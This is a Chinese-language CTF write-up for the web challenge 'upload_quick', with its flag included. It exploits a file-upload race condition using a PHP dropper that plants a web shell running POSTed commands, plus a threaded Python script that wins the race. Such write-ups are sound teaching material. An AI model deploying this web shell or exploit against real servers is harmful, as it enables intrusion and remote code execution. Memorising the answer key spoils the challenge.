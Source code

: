 - **题目名称：** upload_quick
- **题目类型：** WEB
- **题目难度：** 中等
- **出题人：** fru1ts
- **考点：** 

1. 文件上传
2. 条件竞争

- **描述：** newnew的逻辑不太对，只要你够快
- **flag：** `XSCTF{fi1e_uplooooooooad_intetesting_491346}`
- **Writeup：** 

1.获取页面源码（3种方法）：

- `view-source:url` / Ctrl + U
- 打开开发者工具（不要用快捷键，已经锁死）
- burpsuit

在`EasePack.min.js`找到提示：`you find me, good luck for you! Now go to Upl00000000ad.php`

2.访问`/Upl00000000ad.php`进行文件上传。通过尝试发现文件成功传上去，然后非图片的后缀再被改成`.jpg`，所以可以通过条件竞争在被修改后缀前上传`websehll`。

思路：使用两个线程，一个线程上传php文件，另一个线程访问传上去的php使之执行。

为了留下稳定的后门，在上传的php里面写一个创建后门文件

```php
#a.php
<?php
fputs(fopen("shell.php","w"),'<?php @eval($_POST["cmd"]);?>');
?>
```

exp

```python
import requests
import threading

url = ''


def POST1():
    for i in range(50):
        filename = 'a.php'
        file = {"upload_file": open(filename, "rb")}
        r = requests.post(url=url + 'Upl00000000ad.php', data={'submit': 'True'}, files=file)

        # print(r.text)


def POST2():
    for i in range(50):
        r = requests.get(url=url + 'uploads/a.php')
        if r.status_code == 200:
            r=requests.get(url=url+'uploads/shell.php')
            if r.status_code==200:
                print('ok')
                break
        # print(r.text)



threading.Thread(target=POST1).start()
threading.Thread(target=POST2).start()


```

蚁剑连接`url/uploads/shell.php`

